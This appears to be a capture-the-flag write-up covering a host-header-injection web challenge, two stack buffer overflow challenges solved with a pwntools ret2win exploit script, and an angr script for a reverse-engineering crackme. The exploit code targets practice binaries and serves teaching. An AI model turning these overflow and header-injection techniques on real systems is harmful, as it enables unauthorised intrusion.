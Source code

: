 ## WEB

### Health care

#### Descripttion 

You finally come across a unique health care application. Everyone has tried their best to get info from it, but no one has been able to get anything useful. It allways makes silly excuses. Can you help us?

this challenge is quite similar to the last ctf i.e. VishwaCTF-2024's h34d3rs, where we have to to perform host header injection according to the response from server.
as ctf platform is not live for now , will not able to step through challenge(i'll update it later) but this was the final request where i added all the headers sequentially.

![health_care.png](web/03_health_care/health_care.png)

## PWN

### overflow

#### Description

I found an exposed service on a power grid machine. I heard that buffer overflow is one of the most common memory corruption bugs. Maybe it might work here?

##### Main func

![overflow1.png](pwn/01_overflow/overflow1.png)

if you see line 11 **gets** function being used that means its clearly vulnerable bof as no-bound checking, so we can leverage it for overwriting **local_14** var  as flag function is being called if and only if **local_14 != 0** where flag func print the flag.

##### Flag func

![overflow2.png](pwn/01_overflow/overflow2.png)

##### Solve

![overflow-solve.gif](pwn/01_overflow/overflow-solve.gif)


### bof

#### Description


##### Main func

![bof1.png](pwn/02_bof/bof/bof1.png)

function on line no. 10 being used is most probably **scanf** function and same as before no bound checking where the first arg i.e. is **%s** format specifier and second one is user input.

##### secretFunction func

![bof2.png](pwn/02_bof/bof/bof2.png)

this particular function is printing the flag.

okay, pretty clear it is. its just typical ret2win challenge 

##### Exploit 

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chall")
libc = elf.libc

context.binary = elf

gdbscript='''
'''

def conn(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([elf.path] + argv, *a, **kw)

def main():
    r = conn()

    padding = cyclic(40)
    win = elf.symbols['secretFunction']
    payload = padding + pack(win)
    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

## REV

### byte by byte

#### Description


##### Main func

![byte1.png](rev/03_byte_by_byte/byte1.png)

scattered flag , we can do it either manually or using angr

##### Solve

```python
import angr
import re 

project = angr.Project("./condition", auto_load_libs=False)

@project.hook(0x401584)  # Target address
def print_flag(state):
    print("VALID INPUT:", state.posix.dumps(0))
    project.terminate_execution()

project.execute()
``` 

![bytebybyte-solve.png](rev/03_byte_by_byte/bytebybyte-solve.png)

